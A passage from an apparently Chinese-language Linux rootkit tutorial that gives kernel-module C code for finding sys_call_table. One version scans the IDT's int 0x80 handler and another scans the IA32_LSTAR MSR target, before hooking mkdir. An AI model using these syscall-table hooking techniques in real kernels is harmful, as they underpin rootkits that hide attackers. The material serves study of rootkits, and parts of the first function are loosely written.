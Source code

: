 `idtr`即`Interrupt Descriptor Table Register`，用来定位`IDT`的位置。我们将使用`sidt`指令将`IDTR`寄存器的内容加载到我们的结构体`idtr`中。之后，将`IDT`存储到我们的结构体`idt`中。

下面就是模块代码了：

{% highlight c %}
unsigned long  *find_sys_call_table(void)
{
	unsigned int sys_call_off;
	char *p;
	int i;
	unsigned int ret;
	asm("sidt %0":"=m"(idtr));
	printk("br: idt table-0x%x\n", idtr.addr);
	memcpy(&idt, idtr.addr+8*0x80, sizeof(idt));
	sys_call_off = ((idt.offset_2 << 16) | idt.offset_1);
	p = sys_call_off;
	for(i = 0; i < 100; i++){
		if(p[i] == '\xff' && p[i+1] == '\x14' && p[i+2] == '\x85')
			ret = *(unsigned int *)(p + i + 3);
	}

	printk("br: sys_call_table-0x%x\n", ret);
	return (unsigned long**)ret;
}
{% endhighlight %}

获取`sys_call_table`地址后同样挂钩`mkdir`，测试结果如下：

![]({{ site.url }}/images/LinuxRootkits/linux-rkt-35.png)

#### 四 借助 IDT ②

`x64`汇编中`call`指令的二进制是`\xff\x14\xc5`。

之前提到，`x64`机器上为了兼容`x86`的方式，存在两个系统调用表：

```
sys_call_table
ia32_sys_call_table
```

**搜索 sys_call_table**

学习自【参考资料】五。代码如下：

{% highlight c %}
#include <linux/module.h>

#define IA32_LSTAR  0xc0000082

void *get_sys_call_table(void) {
    void *system_call;
    unsigned char *ptr;
    int i, low, high;

    asm("rdmsr" : "=a" (low), "=d" (high) : "c" (IA32_LSTAR));
    system_call = (void*)(((long)high<<32) | low);
    printk(KERN_INFO "system_call: 0x%p", system_call);
    for (ptr=system_call, i=0; i<500; i++) {
        if (ptr[0] == 0xff && ptr[1] == 0x14 && ptr[2] == 0xc5)
            return (void*)(0xffffffff00000000 | *((unsigned int*)(ptr+3)));
        ptr++;
    }
    return NULL;
}
static int __init sct_init(void) {
    printk(KERN_INFO "sys_call_table: 0x%p", get_sys_call_table());
    return 0;
}